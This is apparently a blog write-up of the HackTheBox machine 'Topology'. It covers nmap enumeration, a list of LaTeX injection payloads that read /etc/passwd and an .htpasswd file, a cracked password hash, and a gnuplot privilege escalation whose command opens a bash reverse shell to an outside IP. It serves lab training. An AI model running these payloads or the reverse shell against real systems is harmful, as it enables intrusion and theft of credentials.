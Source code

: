 ```yaml
---
layout: single
title: Topology - HackTheBox (OSCP STYLE)
excerpt: "During the process of resolving Topology, I faced several challenges, such as identifying a latex injection and .htpasswd that is a flat-file used to store usernames and password for basic authentication on an Apache HTTP Server.. To overcome these obstacles, I employed a methodology based on the OSCP."
date: 2024-02-22
classes: wide
header:
  teaser: /assets/images/topology/portada.png
  teaser_home_page: true
categories:
  - HackTheBox
  - infosec
tags:
  - HackTheBox
  - Linux
  - htpasswd
  - Latex Injection
  - Bad Sudo Permissions
---
```


## Enumeration


We'll be facing this exercise with the OSCP methodology

The first step is perform a nmap scan in the target machine, but before that we'll ping the victim machine in order to discover if we have vibility and know the OS that is running

After pinging the machine found that it responds with a ttl of 63, that means that we are handling a linux machine.

We start our nmap scan

```
sudo nmap -sS -p- --min-rate 5000 --open -T5 -Pn -n 10.10.11.217 -oG allPorts
```

Found that the machine has the open ports 80 and 22

![1]

After that we decided to perform a nmap scan in the 2 open ports to find the versions that this services are running 

```
nmap -sVC -p22,80 10.10.11.217 --script=http-enum -oN targeted
```

![2]

Interensing data that we found here is that the web server is running an Apache 2.4.41

Regarding http-enum script found /demo/ directory

The main page overview is showing an university page 

![3]

The things that we found in this main page, are the following:

```
Valid user: lklein
Valid redirect that we should apply directory listing to reach this page
"latex.topology.htb"
```

![4]

## Initial access

On first instance it seems that this machine should be vulnerable to a latex injection, regarding the directory /demo that we found enumerating the site, we were unable to reach this page.

I decided to try some basic latex injections to find out how the webpage responds

```
# Read file
\input{/etc/passwd}
$\input{/etc/passwd}$
$$\input{/etc/passwd}$$

\include{example} # Read example.tex
$\include{example}$
$$\include{example}$$

\lstinputlisting{/etc/passwd}
$\lstinputlisting{/etc/passwd}$
$$\lstinputlisting{/etc/passwd}$$


# Write file
\newwrite\outfile
$\newwrite\outfile$
$$\newwrite\outfile$$

\openout\outfile=cmd.tex
$\openout\outfile=cmd.tex$
$$\openout\outfile=cmd.tex$$

\write\outfile{Hello-World}
$\write\outfile{Hello-World}$
$$\write\outfile{Hello-World}$$

```

But the page responds saying that we are using illegal commands if we try to read content from this page

![5]

We've checked for a suposed WAF making syntax filter but nothing found

![6]

I decided to try all the payloads and found that 

```
$\lstinputlisting{/etc/passwd}$
```

Allow us to read the /etc/passwd content

![7]

```
Valid users that we found:

vdaisley
www-data
root
```

We also tried more injections, but we weren't able to read other files, after enumerate the machine with wfuzz discover dev subdomain

Since we have read permissions we could try to read htpasswd 

.htpasswd is a flat-file used to store usernames and password for basic authentication on an Apache HTTP Server. The name of the file is given in the .htaccess configuration, and can be anything although ".htpasswd" is the canonical name. The file name starts with a dot, because most Unix-like operating systems consider any file that begins with dot to be hidden. This file is often maintained with the shell command "htpasswd" which can add, delete, and update users, and will properly encode the password for use.


```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

![8]

```
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

We have to decrypt this hash with john the ripper tool and get the user password

![9]

```
Valid user and password:
vdaisley:calculus20
```

And gain access as vdaisley user

![10]


## Privilege escalation


Doing a manual enumeration found that in /opt folder we haver gnuplot 


gnuplot is a command-line program that can generate two- and three-dimensional plots of functions, data, and data fits. The program runs on all major computers and operating systems.It is a program with a fairly long history, dating back to 1986. Despite its name, this software is not part of the GNU project.

Executing the app found that the version that this application is running is the 5.2 version

![11]

We have write and execution permissions in gnuplot folder, the way that we are going to use this is because gnuplot has 2 files (owned by root inside this directory) hello and test

If we redirect a reverse shell inside one of those files we will get root acces to the machine

```
echo "system(\"bash -c 'bash -i >& /dev/tcp/10.10.14.228/4444' 0>&1' \")" > hello.plt
```

![12]



[1]:/assets/images/topology/1.png
[2]:/assets/images/topology/2.png
[3]:/assets/images/topology/3.png
[4]:/assets/images/topology/4.png
[5]:/assets/images/topology/5.png
[6]:/assets/images/topology/6.png
[7]:/assets/images/topology/7.png
[8]:/assets/images/topology/8.png
[9]:/assets/images/topology/9.png
[10]:/assets/images/topology/10.png
[11]:/assets/images/topology/11.png
[12]:/assets/images/topology/12.png
